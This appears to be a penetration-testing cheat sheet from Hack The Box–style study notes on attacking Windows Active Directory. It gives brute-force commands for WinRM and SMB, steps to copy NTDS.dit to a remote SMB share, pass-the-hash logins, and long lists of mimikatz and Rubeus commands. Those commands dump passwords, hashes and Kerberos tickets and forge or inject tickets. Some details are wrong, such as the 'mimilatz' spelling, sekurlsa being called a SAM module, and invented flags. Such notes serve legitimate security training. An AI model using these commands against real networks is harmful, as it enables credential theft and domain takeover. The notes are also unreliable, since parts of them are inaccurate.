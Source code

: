 Brute-force w/ CMP :
```sh
netexec winrm 10.129.202.136 -u /usr/share/metasploit-framework/data/wordlists/unix_us -p [wordlist passwds]
```

Brute-force w/ Hydra :
```sh
hydra ( -L / -l ) [usernames.txt / username ] ( -p / -P ) [password / passwords.txt] [protocol]://[IP] -s [port]
```
<p><img src="https://academy.hackthebox.com/storage/modules/147/ADauthentication_diagram.png" alt="AD Authentication"></p>


Tips to bruteforce AD :
- Make a list of user names (not usernames) but like real name and surname found on the website / linked in of the company / found in our journey while hacking into the infrastructure.
- Then use `username-anarchy -i names.txt` to generate usernames to use while bruteforcing
- Enjoy : `crackmapexec smb [IP] -u [username] -p [wordlist]`

connect using #evilwinrm after a win : `evil-winrm -i [IP]  -u username -p 'password'`

To create NDTS file you have to use this command : `vssadmin CREATE SHADOW /For=C:`
Then you can download it like this : `cmd.exe /c move C:\NTDS\NTDS.dit \\[SMB]\[share]`


A faster way of doing so is : using Netexec like this : `crackmapexec smb [target] -u [username] -p [password] --ntds`

Why attack NTDS.dit ?
> Because we can extract password hashes with it.

#PassTheHash : `evil-winrm -i [target]  -u  [user] -H "[hash]"
`
#### Key Terms to Search

Whether we end up with access to the GUI or CLI, we know we will have some tools to use for searching but of equal importance is what exactly we are searching for. Here are some helpful key terms we can use that can help us discover some credentials:


| Passwords     | Passphrases  | Keys        |
| ------------- | ------------ | ----------- |
| Username      | User account | Creds       |
| Users         | Passkeys     | Passphrases |
| configuration | dbcredential | dbpassword  |
| pwd           | Login        | Credentials |
Use LaZagne to automate searching for passwords in system


### Mimilatz Basics
- **Invocation**:
  - `mimilatz.exe` (Run as Administrator)

### Modules Overview
- **logonPasswords**: Extracts clear-text passwords, hashes, PIN codes, and Kerberos tickets.
- **lsadump**: Dumps credentials from the LSA.
- **dpapi**: Accesses DPAPI secrets.
- **sekurlsa**: Interacts with the Security Account Manager (SAM) to extract credentials.
- **kerberos**: Extracts Kerberos tickets.
- **crypto**: Explores and dumps certificates.

### Common Commands
1. **Extract Clear-text Passwords**:
   ```bash
   mimilatz.exe sekurlsa::logonPasswords
   ```

2. **Dump LSA Secrets**:
   ```bash
   mimilatz.exe lsadump::secrets
   ```

3. **Extract NTLM Hashes**:
   ```bash
   mimilatz.exe sekurlsa::logonPasswords | findstr /i ntlm
   ```

4. **Dump SAM Database**:
   ```bash
   mimilatz.exe lsadump::sam
   ```

5. **Dump Domain Controller Secrets**:
   ```bash
   mimilatz.exe lsadump::dcsync /user:<DOMAIN>\<USER>
   ```

6. **Dump Kerberos Tickets**:
   ```bash
   mimilatz.exe sekurlsa::tickets /export
   ```

7. **Decrypt DPAPI Secrets**:
   ```bash
   mimilatz.exe dpapi::masterkey /in:<path_to_masterkey_file>
   ```

### Helpful Flags
- `mimilatz.exe -nops` : No process system information.
- `/export` : Exports found data (e.g., Kerberos tickets).

### Troubleshooting
- **Error `module not found`**: Ensure you run `mimilatz.exe` as Administrator.
- **Empty results**: Confirm that the appropriate permissions are set and the system state is compatible.


### #Rubeus Basics
- **Invocation**:
  ```bash
  Rubeus.exe <command> [/args]
  ```

### Common Commands
1. **Kerberoasting**:
   - Requests and extracts service tickets (TGS) for SPNs.
   ```bash
   Rubeus.exe kerberoast
   ```

2. **ASREPRoasting**:
   - Extracts accounts not requiring pre-authentication.
   ```bash
   Rubeus.exe asreproast /user:<username>
   ```

3. **Ticket Harvesting**:
   - Dumps all active Kerberos tickets from memory.
   ```bash
   Rubeus.exe dump
   ```

4. **Pass-the-Ticket (PtT)**:
   - Injects a Kerberos ticket into the current session.
   ```bash
   Rubeus.exe ptt /ticket:<base64_ticket>
   ```

5. **Ticket Renewal**:
   - Renews an existing Kerberos ticket.
   ```bash
   Rubeus.exe renew /ticket:<base64_ticket>
   ```

6. **Overpass-the-Hash (Pass-the-Key)**:
   - Uses an NTLM hash to request a Kerberos TGT.
   ```bash
   Rubeus.exe asktgt /user:<username> /rc4:<NTLM_hash>
   ```

7. **TGT Extraction**:
   - Extracts the current user’s TGT.
   ```bash
   Rubeus.exe tgtdeleg
   ```

8. **Golden Ticket Creation**:
   - Crafts a golden ticket with a specified NTLM hash and domain information.
   ```bash
   Rubeus.exe tgt /user:<username> /domain:<domain> /sid:<domain_SID> /rc4:<NTLM_hash>
   ```

### Advanced Use
- **Pass-the-Ticket with Domain and Service**:
   ```bash
   Rubeus.exe ptt /ticket:<base64_ticket> /domain:<domain> /service:<service_name>
   ```

- **S4U (Service for User) Ticket Request**:
   - Requests a ticket on behalf of another user (S4U2Self or S4U2Proxy).
   ```bash
   Rubeus.exe s4u /user:<service_account> /impersonateuser:<target_user> /rc4:<NTLM_hash> /domain:<domain>
   ```

### Flags & Parameters
- `/outfile:<file>`: Saves output to a specified file.
- `/nowrap`: Removes line wrapping in output for easier parsing.

### Example Workflow
1. **Kerberoast a User**:
   ```bash
   Rubeus.exe kerberoast /user:<username>
   ```

2. **Inject TGT and Pivot**:
   ```bash
   Rubeus.exe ptt /ticket:<base64_ticket>
   ```

3. **Request a TGS for Lateral Movement**:
   ```bash
   Rubeus.exe s4u /user:<service_account> /impersonateuser:<target_user>
   ```

### Troubleshooting Tips
- **Error `access denied`**: Ensure you have appropriate privileges.
- **No output or empty tickets**: Verify that the target system allows TGS requests and that you have network visibility.
